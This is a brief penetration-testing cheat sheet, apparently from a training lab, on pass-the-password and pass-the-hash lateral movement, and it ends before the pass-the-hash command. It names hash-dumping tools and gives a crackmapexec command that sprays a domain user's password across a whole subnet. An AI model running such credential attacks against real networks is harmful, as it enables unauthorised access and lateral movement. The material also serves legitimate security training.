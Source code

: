 # **Pass the Password / Pass the Hash**

## **What are this?**

If we crack a password and/or can dump the SAM hashes with **secretsdump.py** or **ntlmrelayx.py**, we can leverage both for lateral movement in networks



## **Attack 1  : Crackmapexec**

```powershell
# show help message
$ crackmapexec --help

# Pass the password attack
$ sudo crackmapexec smb 192.168.0.0/24 -u fcastle -d MARVEL.local -p Password1

# Pass the hash attack
# 
```